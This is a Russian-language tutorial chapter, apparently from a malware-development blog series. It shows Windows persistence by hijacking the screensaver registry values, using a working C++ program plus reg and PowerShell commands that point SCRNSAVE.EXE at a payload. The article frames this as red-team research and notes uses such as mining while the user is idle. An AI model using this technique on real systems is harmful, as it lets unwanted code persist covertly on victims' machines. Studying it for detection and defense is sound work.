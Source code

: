 \newpage
\subsection{68. Разработка вредоносного ПО: персистентность - часть 2. Захват экранной заставки. Пример на C++.}

![pers](./images/52/2022-04-27_03-07.png){width="80%"}    

Этот пост - вторая часть серии статей о техниках и трюках персистентности вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного трюка персистентности: злоупотребление экранными заставками.    

### экранные заставки

Экранные заставки - это программы, которые запускаются после заданного времени бездействия пользователя. Эта функция Windows давно используется злоумышленниками как метод персистентности. Экранные заставки - это PE-файлы с расширением `.scr` по умолчанию, а их настройки хранятся в следующих ключах реестра:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

![pers](./images/52/2022-04-27_03-23.png){width="80%"}    

Значение `1` включает экранную заставку.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - задаёт    
тайм-аут бездействия пользователя перед запуском экранной заставки.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - устанавливает     
путь к приложению для выполнения.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* из [предыдущей](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) части `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-04.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-26-malware-pers-2\`:    

![pers](./images/52/2022-04-27_03-29.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для запуска `hack.exe` при бездействии пользователя `10` секунд:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новые ключи реестра для тайм-аута и пути к приложению. Ключи реестра можно добавить через терминал `cmd`:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

или с помощью команд `powershell`:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

Но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### Демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-06.png){width="80%"}    

Для чистоты эксперимента сначала проверим ключи реестра на машине жертвы и удалим их, если они существуют:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

![pers](./images/52/2022-04-27_03-43.png){width="80%"}    

![pers](./images/52/2022-04-27_03-48.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-14.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы, войдём снова и подождём `10` секунд или просто остаёмся неактивными `10` секунд:    

![pers](./images/52/2022-04-27_04-13_1.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-18.png){width="80%"}    

### заключение

Проблема этого метода персистентности в том, что сессия завершится, когда пользователь вернётся и система перестанет быть неактивной. Однако красные команды могут выполнять свои операции (например, майнинг) во время отсутствия пользователя. Если экранные заставки отключены групповой политикой, этот метод нельзя использовать для персистентности. Также можно заблокировать выполнение `.scr` файлов из нестандартных мест.

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
